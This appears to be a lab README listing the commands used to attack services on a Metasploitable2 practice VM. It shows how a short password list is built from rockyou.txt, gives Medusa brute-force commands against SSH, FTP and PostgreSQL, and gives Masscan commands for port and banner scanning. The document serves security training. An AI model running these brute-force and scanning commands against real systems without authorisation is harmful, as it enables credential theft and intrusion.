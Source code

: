# Attack Tool Commands

## Description

This document contains the commands used to run the attack tools against services running on the Metasploitable2 virtual machine.

## Medusa

For each of the services tested, the hostname used is `msfadmin` and the password list used is `password_list.txt`. The password list was generated using using the first 28 passwords from the `rockyou.txt` password list with two additional passwords `msfadmin` and `postgres` added to the end of the list to generate found cases.

The command used to generate the `password_list.txt` file is:

```bash
tail -n +6 rockyou.txt | head -n 28 > password_list.txt && echo "msfadmin" >> password_list.txt && echo "postgres" >> password_list.txt
```

```bash
# SSH Brute Force
medusa -h 192.168.1.100 -u msfadmin -P password_list.txt -M ssh -n 22

# FTP Brute Force
medusa -h 192.168.1.100 -u msfadmin -P password_list.txt -M ftp -n 21

# PostgreSQL Brute Force
medusa -h 192.168.1.100 -u postgres -P password_list.txt -M postgres -n 5432
```

## Masscan

```bash
# List available network interfaces
masscan --iflist

# Scan all ports on the target machine using the specified network interface
sudo masscan -p21-8180 192.168.1.100 --banners --packet-trace --source-mac <IFACE_MAC_ADDR> 
```

